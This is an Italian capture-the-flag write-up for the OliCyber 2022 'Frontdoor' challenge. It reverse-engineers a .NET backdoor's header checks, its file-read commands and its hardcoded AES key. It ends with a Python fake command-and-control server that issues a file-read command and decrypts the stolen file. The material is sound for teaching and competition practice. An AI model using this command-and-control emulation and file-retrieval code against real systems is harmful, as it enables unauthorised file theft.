# OliCyber.IT 2022 - Competizione nazionale

## [binary-2] Frontdoor 1/2 (3+3 risoluzioni)

La challengepermette all'utente di inserire un URL, a cui il programma remoto si collegherà e farà richieste.

### Soluzione

Essendo il binario compilato con vb.net si disassembla facilmente usando software come dotPeek o dnSpy.
Analizzando il sorgente si vede come il programma genera una stringa random come User-Agent e la invia al server specificato.
In seguito ottiene la risposta ed effettua i seguenti controlli:

- Esiste un header "Server-Type" con valore "Frontdoor-Server-1.0"
- Esiste un header "C&c" il cui valore è verificato con il seguente algoritmo: ogni carattere viene xorato con la stringa generata in precedenza, poi i valori sono sommati a coppie, e infine viene controllato se questi valori sono uguali a quelli fissati all'interno del codice.
  Superando questi controlli il programma comunica nuovamente con il server e invia la prima flag nell'header "Flag".

Per ottenere la seconda flag bisogna analizzare la logica di comunicazione della backdoor.
Infatti il programma richiede /command.txt al server, ed effettua diverse operazioni a seconda del contenuto.
In particolare inserendo "rdir;." si ottengono i files locali, mentre inserendo "rfile;< nomefile >" si ottiene il contenuto del file.
Il programma però cifra la risposta usando AES, analizzando la funzione di cifratura si recupera la chiave fissa e si decifra il traffico.
Richiedendo il file superhiddensecret.txt e decifrando la risposta si ottiene la seconda flag.

### Exploit

```py
#!/usr/bin/env python
from pwn import xor
import base64
from Crypto.Cipher import AES
import hashlib

secret=[0x57, 0x47, 0xb3, 0xa9, 0x9a, 0x45, 0x5b, 0xd9, 0xb9, 0xae, 0x45, 0x2c, 0x3f, 0xdf, 0xed, 0x2f, 0x14, 0x3e, 0xd7, 0x2f, 0x3, 0x59, 0x36, 0xff, 0x50, 0xef, 0xb5, 0x82, 0x4e, 0x39, 0xba, 0x5b]
file = open('command.txt','w+')
file.write("rfile;superhiddensecret.txt")
file.close()

try:
    # Python 3
    from http.server import HTTPServer, SimpleHTTPRequestHandler, test as test_orig
    import sys
    def test (*args):
        test_orig(*args, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
except ImportError: # Python 2
    from BaseHTTPServer import HTTPServer, test
    from SimpleHTTPServer import SimpleHTTPRequestHandler

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = base64.b64decode(self.rfile.read(content_length))
        key = b'\x0c8/\x14\r\xd5\xea\xe52@\x02m$\xa3\xc1\x0c8/\x14\r\xd5\xea\xe52@\x02m$\xa3\xc1\xec\x00'
        cipher = AES.new(key, AES.MODE_ECB)
        print(cipher.decrypt(post_data))
        self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

    def end_headers (self):
        if(self.path=="/command.txt"):
            print(self.headers)
            SimpleHTTPRequestHandler.end_headers(self)
            return
        ua=self.headers["User-Agent"]
        res=[secret[0]-1]+[0]*31
        for x in range(1, 32):
            res[x]=(secret[x-1]-res[x-1])%256
        print(res)
        res=bytes(res)
        res=xor(res, ua.encode())
        ua=ua.encode()
        self.send_header("Server-Type", "Frontdoor-Server-1.0")
        self.send_header('C&c', base64.b64encode(res).decode())
        SimpleHTTPRequestHandler.end_headers(self)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer)
```
